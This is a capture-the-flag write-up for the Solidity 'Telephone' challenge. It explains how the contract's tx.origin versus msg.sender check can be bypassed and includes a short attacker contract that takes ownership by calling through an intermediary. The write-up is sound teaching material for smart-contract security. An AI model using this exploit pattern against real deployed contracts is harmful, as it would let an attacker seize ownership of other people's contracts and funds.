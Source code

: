 ## Telephone Challenge

### The goal of this challenge is to transfer ownership to your address

Solidity Code: 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

Looking at the contract it's very easy to tell that satisfying the `tx.origin` being equivalent to `msg.sender` is where the this contract could be exploited!

But if you don't know the difference between the two let's explain it here in Lehman's terms: 

The `tx.origin` global variable refers to the original external account that started the transaction while `msg.sender` refers to the immediate account (it could be external or another contract account) that invokes the function.

- In simpler words `tx.origin` will be the originator of the transaction and `msg.sender` will be the caller of the function.

Now back to the contract we can tell that if we were to call the `changeOwner` function from another contract the `tx.origin` would not be equal to `msg.sender` and in that case the `msg.sender` will be the contract that calls this function while the transaction originator will be the address itself.

Let's implement that in code

```
contract HackTelephone {
    Telephone private immutable target;

    constructor(address _target) {
        target = Telephone(_target);
    }

    function changeOwner() external {
        target.changeOwner(msg.sender);
    }

}

```

And there you have it, Call the changeOwner function which and the if condition in the contract will be satisfied with the ownership transferred to your address.